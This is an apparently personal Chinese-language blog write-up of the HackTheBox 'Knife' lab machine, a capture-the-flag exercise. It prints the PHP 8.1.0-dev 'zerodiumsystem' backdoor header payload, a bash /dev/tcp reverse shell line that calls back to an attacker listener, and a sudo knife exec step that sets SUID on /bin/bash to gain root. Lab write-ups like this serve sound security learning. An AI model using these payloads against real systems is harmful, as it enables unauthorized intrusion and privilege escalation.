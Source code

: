 ```yaml
---
layout:     post
title:      HackTheBox Knife
subtitle:   HackTheBox
date:       2021-06-01
author:     heria
header-img: img/post-bg-024.jpeg
catalog: true
tags:
---
```


![image-20210528164955544](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210528164955544.png)

## 信息收集

nmap -sS -sV -sC 10.10.10.242

![image-20210528164911058](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528164911058.png)

发现开放22和80端口，80端口啥都没得点

![image-20210528165953268](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528165953268.png)

## 渗透

burp抓包获取到php版本信息

![image-20210528171120154](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528171120154.png)

php/8.1.0-dev

检索漏洞，相关资料如下

```
https://blog.csdn.net/zy15667076526/article/details/116447864
```

![image-20210528171458492](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528171458492.png)



漏洞验证，添加user-agentt字段，确实存在漏洞

![image-20210528172435792](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528172435792.png)



可以执行命令

```
User-Agentt: zerodiumsystem("id");
```

![image-20210528172917917](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528172917917.png)

尝试反弹shell

kali开启监听7777端口

之后数据包添加

```
User-Agentt: zerodiumsystem("/bin/bash -c 'bash -i >& /dev/tcp/ip/7777 0>&1'");
```

拿到低权限

![image-20210601102037838](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210601102037838.png)

之后找到user.txt拿到第一个flag

![image-20210601102226262](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210601102226262.png)

## 提权

查看用户sodu权限

```
sudo -l
```

![image-20210601103038708](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210601103038708.png)

由于shell容易断连，通过python获得一个更加稳定的shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20210601103224852](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210601103224852.png)

发现knife可以通过exec执行scirpt

![image-20210601105336334](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210601105336334.png)

进一步在提示站点上发现knife可以运行.rb文件

![image-20210601105537885](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210601105537885.png)

```
echo "system('chmod +s /bin/bash')" > exploit.rb
sudo /usr/bin/knife exec exploit.rb
/bin/bash -p
```

-s参数含义

![image-20210601110024150](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210601110024150.png)

![image-20210601104410530](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210601104410530.png)

之后找到root.txt获得第二个flag

![image-20210601104112992](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210601104112992.png)